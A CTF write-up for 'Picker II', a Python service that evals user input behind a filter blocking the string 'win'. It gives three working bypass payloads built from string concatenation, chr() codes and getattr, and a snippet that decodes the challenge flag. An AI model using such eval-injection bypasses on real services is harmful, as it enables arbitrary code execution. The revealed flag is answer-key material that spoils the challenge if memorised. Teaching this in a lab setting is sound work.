



# **Picker II**

This challange is same as [Picker I](../16/)

## Challenge Description

We are given a Python script that runs in a loop:

* It reads user input (`user_input = input('==> ')`).
* It checks the input with a filter:

  ```python
  def filter(user_input):
      if 'win' in user_input:
          return False
      return True
  ```
* If allowed, it executes:

  ```python
  eval(user_input + '()')
  ```
* There is a hidden function `win()` which reads `flag.txt` and prints it in hex.

Goal: **Execute `win()` to retrieve the flag.**

---

## Code Analysis

1. **The Filter**

   * Blocks any string containing `"win"`.
   * Directly typing `win` at the prompt is rejected.



2. **The Execution Path**

   * Whatever we type is passed to `eval(user_input + '()')`.
   * Example: typing `getRandomNumber` → becomes `eval("getRandomNumber()")`.

3. **Target Function**

   * `win()` opens `flag.txt`, strips whitespace, and prints each character as hex.
   * We must bypass the filter to call this function.

---

## Exploitation Strategy

* Since the filter only checks for the substring `"win"` **literally**, we can *construct* the string `"win"` at runtime without ever typing it directly.
* Python lets us do this in many ways:

  * String concatenation
  * ASCII codes with `chr()`
  * Attribute lookups with `getattr`

When these expressions are evaluated, they resolve to the `win` function object, then `()` executes it.

---

## Working Payloads

At the `==> ` prompt, type any of these:

### 1. String concatenation

```
globals()['w'+'in']
```

Execution:

* Filter sees `w'+'in` (no contiguous `"win"`).
* At runtime → `"w"+"in" = "win"`.
* `globals()['win']` resolves to the `win` function.
* Final eval = `globals()['win']()` → calls `win()`.

---

### 2. Using ASCII codes

```
globals()[chr(119)+chr(105)+chr(110)]
```

* `chr(119) = 'w'`, `chr(105) = 'i'`, `chr(110) = 'n'`.
* Concatenated = `"win"`.
* Calls `globals()["win"]()`.

---

### 3. getattr Trick

```
getattr(__import__('sys').modules['__main__'], 'w'+'in')
```

* Imports the current module (`__main__`).
* `getattr` fetches the `win` function dynamically.

---

## Expected Output

If `flag.txt` exists on the server, you will see something like:



That is the flag in hex format. Convert hex → ASCII to recover the flag string.


```py
hexs = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x66 0x31 0x6c 0x37 0x33 0x72 0x35 0x5f 0x66 0x34 0x31 0x6c 0x5f 0x63 0x30 0x64 0x33 0x5f 0x72 0x33 0x66 0x34 0x63 0x37 0x30 0x72 0x5f 0x6d 0x31 0x67 0x68 0x37 0x5f 0x35 0x75 0x63 0x63 0x33 0x33 0x64 0x5f 0x62 0x39 0x32 0x34 0x65 0x38 0x65 0x35 0x7d "
print(''.join(chr(int(x,16)) for x in hexs.split()))
```

